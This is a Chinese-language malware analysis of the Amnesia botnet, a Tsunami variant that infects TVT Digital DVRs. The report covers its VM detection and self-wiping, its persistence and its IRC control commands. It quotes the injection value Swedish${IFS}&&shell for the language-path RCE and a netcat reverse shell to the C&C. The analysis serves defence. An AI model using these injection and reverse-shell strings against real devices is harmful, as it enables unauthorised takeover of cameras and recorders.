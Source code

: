 ---

## amnesia威胁报告
目前针对物联网设备的恶意软件越来越普遍，一般来说针对物联网设备的攻击分为两个方面：**一是**通过自动化工具使用密码字典尝试批量猜解物联网设备的管理员帐号及密码，导致攻击者可以轻易访问物联网设备(物联网设备被攻击者控制)；**二是**因为物联网设备存在安全漏洞，攻击者利用漏洞来对设备进行攻击，达到控制设备的目的。
**被控制的物联网设备往往会被攻击者集中起来，组建僵尸网络，从而发起DDoS(分布式拒绝服务攻击)攻击。**

近日，一个Linux僵尸网络Tsunami的新变种——名为Amnesia的恶意软件席卷网络。本文主要从爆发时间线、传播原理、对抗办法几个方面进行分析和阐述。

#### 一、主要爆发时间线

2016年3月，一个名为Rotem Kerner的安全研究员发现，某款DVR(数字视频录像机)存在远程代码利用漏洞，黑客可以利用漏洞远程悄无声息地在设备上执行命令并进行完全掌控，随后他将其发现的漏洞上报了DVR厂商，但是未得到任何回应。

心怀不轨的黑客们发现了这座潜在的“金矿”，名为Amnesia的恶魔便悄然诞生。

Amnesia是Tsunami僵尸网络的变种，其父辈Tsunami是一种下载程序/IRC僵尸程序后门，被网络犯罪分子用来发动DDoS攻击。

Amnesia即为通过利用漏洞来对物联网设备进 行攻击的恶意软件，Amnesia也是首个采用虚拟机检测技术来躲避恶意软件分析沙箱的Linux嵌入式恶意软件。
Amnesia僵尸网络允许攻击者利用 远程代码执行漏洞对未打补丁的数字视频录像机设备发起攻击。其中全球大概70多家厂商受到影响，这些厂商均使用了由TVT Digital（深圳同为）生产的设备。根据目前的扫描数据，全球有227000台设备受此漏洞影响，主要受影响的国家和地区包括：中国台湾、美国、以色 列、土耳其和印度。


#### 二、技术分析
本次发现的Amnesia僵尸网络运行在PowerPC架构上，首先攻击者通过暴力猜解或者其他手段感染DVR设备，使Amnesia恶意代码在 DVR上开始运行，当Amnesia运行后，它会连接远程C&C，并根据控制指令中指定的IP范围扫描网络中的其他DVR设备进行传播。

##### 2.1 反虚拟机

Amnesia是首个采用虚拟机检测技术来躲避恶意软件分析沙箱的Linux嵌入式恶意代码。针对Windows或安卓的恶意软件常常会采用虚拟机 检测技术来躲避沙箱环境的分析，然而该技术在Linux嵌入式系统上却很少采用。当僵尸网络Amnesia发现自身运行于VirtualBox、 VMware或QEMU虚拟机中，它将删除系统中的所有文件来阻碍恶意软件分析沙箱的正常运行。

Linux系统中的/sys/class/dmi/id目录里存放了主机的相关硬件信息，包括产品信息、主板信息、Bios信息等，Amnesia就是通过读取该目录中的文件获取当前主机的硬件信息。当Amnesia运行时会读取/sys/class/dmi/id/product_name和/sys/class/dmi/id/sys_vendor文件，并匹配其中是否包含关键字“VirtualBox”、“VMware”和“QEMU”来判断当前目标系统是否为虚拟机。 

当检测到当前主机为虚拟机时，Amnesia将开启自我删除，并删除Linux根目录、当前用户主目录、工作目录，这些删除操作相当于擦除整个Linux系统，会对整个系统造成损害。 

##### 2.2 感染后行为

当目标系统不是虚拟机环境时，
- Amnesia会执行命令来更改系统限制。 
其中主要命令包括:  

| 命令 | 注释 |
| :---- | :---- |
| echo 80000500 > /proc/sys/fs/nr_open 1>/dev/null 2>/dev/null | 更改进程可以打开的最大文件描述符的数量 |
|ulimit -n 1000 1>/dev/null 2>/dev/null | 更改进程可以打开的最大文件描述符的数量|
|ulimit -n 10000 1>/dev/null 2>/dev/null  | 更改进程可以打开的最大文件描述符的数量|
|ulimit -n 100000 1>/dev/null 2>/dev/null  | 更改进程可以打开的最大文件描述符的数量|
|ulimit -n 1000000 1>/dev/null 2>/dev/null  | 更改进程可以打开的最大文件描述符的数量|
|ulimit -n 10000000 1>/dev/null 2>/dev/null  | 更改进程可以打开的最大文件描述符的数量|
|echo 1 > /proc/sys/net/ipv4/tcp_tw_recycle 1>/dev/null 2>/dev/null  | 开启tcp_tw_recycle选项，能够更快地回收TIME-WAIT套接字|
|sysctl -w net.ipv4.tcp_moderate_rcvbuf=\"0\" 1>/dev/null 2>/dev/null  | 关闭TCP内存自动调整功能|
|sysctl -w fs.file-max=999999999999999999 1>/dev/null 2>/dev/null  | 更改文件句柄的最大数量|

- Amnesia会根据当前用户的权限将自身拷贝到/etc/init.d/.reboottime和/etc/cron.daily/.reboottime,然后修改用户目录下的.bashrc、.bash_profile文件，实现自身随系统启动运行。
- Amnesia会杀死与Telnet及SSH相关的进程，来防止管理员或其他攻击者通过远程登录来控制设备。
将自身写入到用户目录下.bashrc、.bash_profile实现随系统启用运行。 

##### 2.3 控制指令
Amnesia采用IRC协议与C&C进行通信，其中支持的控制指令较多，而且包括许多与DDoS攻击相关的指令。通过对控制命令的进一步 分析，发现Amnesia使用了与Tsunami恶意代码相同的控制指令，也进一步印证了Amnesia为Tsunami的新变种。

##### 2.4 漏洞利用

在控制指令中包括两个特殊的指令CCTVSSCANNER和CCTVPROCS。其中，CCTVSSCANNER用来扫描DVR设备，CCTVPROCS用来对存在漏洞的设备进行攻击。

当Amnesia收到CCTVSSCANNER指令时，Amnesia会构造请求向指定的IP地址发起连接，然后读取返回内容，如果返回内容中包括 “Cross Web Server”，则表示该DVR设备存在。Amnesia会构造请求并在请求中加入要远程执行的shell命令发起对DVR设备的访问。(其 中${IFS}用来代替空格，构造的shell为nc HOST 8888 -e /bin/bash,其中的 HOST会填充为C&C地址)

Amnesia恶意代码会请求/language/[language]/string.js页面,TVT DVR设备在处理针对/language/[language]/路径的请求时，首先会检查[language]是否存在，如果不存在则执行tar -zxf /mnt/mtd/WebSites/language.tar.gz [language]/* -C /nfsdir/language命令。在Amnesia构造的请求中[language]被填充为Swedish${IFS}&&shell，由于Swedish不存在，所以会执行tar -zxf /mnt/mtd/WebSites/language.tar.gz Swedish && shell命令 /* -C /nfsdir/language命 令。即Swedish后面连接的shell命令会被执行，这就导致了远程命令执行。 (关于该漏洞的详细信息可参阅http://www.kerneronsec.com/2016/02/remote-code-execution- in-cctv-dvrs-of.html)
#### 三、影响

通过“跨网络服务器”的指纹我们发现了，全球范围内有超过22.7万台曝露在互联网上的设备，可能为TVT Digital公司生产。我们还分别使用了Shodan.io和Censys.io上的关键字进行了搜索，它们分别报告了大约50,000和约705,000个相关IP地址。

下表列出了前20位潜在易受 TVT Digital DVR设备漏洞影响的国家：

| 序号 |  地区 | 感染数量 |
| --- | --- | ---- |
|1. |Taiwan |47170
|2. |United States |44179
|3. |Israel |23355
|4. |Turkey |11780
|5. |India |9796
|6. |Malaysia|9178|
|7. |Mexico |7868
|8. |Italy |7439
|9. |Vietnam| 6736
|10.|United Kingdom|4402
|11. |Russia |3571
|12. |Hungary|3529
|13. |France |3165
|14. |Bulgaria| 3040
|15. |Romania|2783
|16. |Colombia|2616
|17. |Egypt| 2541
|18. |Canada|2491
|19. |Iran |1965
|20. |Argentina |1748


#### 四、技术分析及预测

随着越来越多的物联网设备连接至互联网，那些不安全的物联网设备正在成为威胁实施者眼中唾手可得并可轻松利用的成熟果实。正如臭名昭著的Mirai 僵尸网络，针对网络摄像头和家庭路由器等设备中的登录漏洞进行攻击利用，发起了迄今为止已知的规模最大的DDoS攻击。如果物联网设备制造商不能确保其设 备的绝对安全，对数字经济的潜在影响将是毁灭性的。
